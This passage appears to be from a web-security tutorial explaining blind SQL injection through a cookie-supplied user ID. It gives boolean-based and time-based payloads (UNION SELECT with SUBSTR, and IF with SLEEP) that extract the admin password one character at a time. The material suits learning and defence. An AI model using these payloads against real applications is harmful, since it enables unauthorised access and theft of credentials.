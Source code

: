 The application uses this request to produce the following SQL query: `SELECT * FROM PremiumUsers WHERE Id='2';`

Let’s say your account isn’t premium. What would happen if you submit **this user ID instead**?

```sql
2' UNION SELECT Id FROM Users
WHERE Username = 'admin'
and SUBSTR(Password, 1, 1) ='a';--
```

Well, the query would become the following:

```sql
SELECT * FROM PremiumUsers WHERE Id='2'
UNION SELECT Id FROM Users
WHERE Username = 'admin'
and SUBSTR(Password, 1, 1) = 'a';-- returns the first character of each user’s password
```

Since user 2 isn’t a premium member, whether this query returns data will depend on the **second SELECT statement**, which returns data if the admin account’s password starts with an a. This means you can **brute-force**
the admin’s password; if you submit this user ID as a cookie, the web application would display the premium banner if the admin account’s password starts with an **a.**

A time-based SQL injection is similar, but instead of **relying on a visual cue in the web application**, the attacker relies on the **response-time difference caused by different SQL injection payloads**.

Let’s say premium members don’t get a **special banner**, and their user interfaces don’t look any different. How do you exploit this SQL injection then?

If the time delay occurs, you’ll know the query worked correctly. Try using an **IF statement** in the SQL query:   `IF(CONDITION, IF-TRUE, IF-FALSE)`

For example, say you submit the following ID:

```sql
2' UNION SELECT
IF(SUBSTR(Password, 1, 1) = 'a', SLEEP(10), 0)
Password FROM Users
WHERE Username = 'admin';
```

The SQL query would become the following:

```sql
SELECT * FROM PremiumUsers WHERE Id='2'
UNION SELECT
IF(SUBSTR(Password, 1, 1) = 'a', SLEEP(10), 0)
Password FROM Users
WHERE Username = 'admin';
```

This query will instruct the database to **sleep for 10 seconds if the admin’s password starts with an a** character. Using this technique, you can slowly figure out the admin’s password.

.

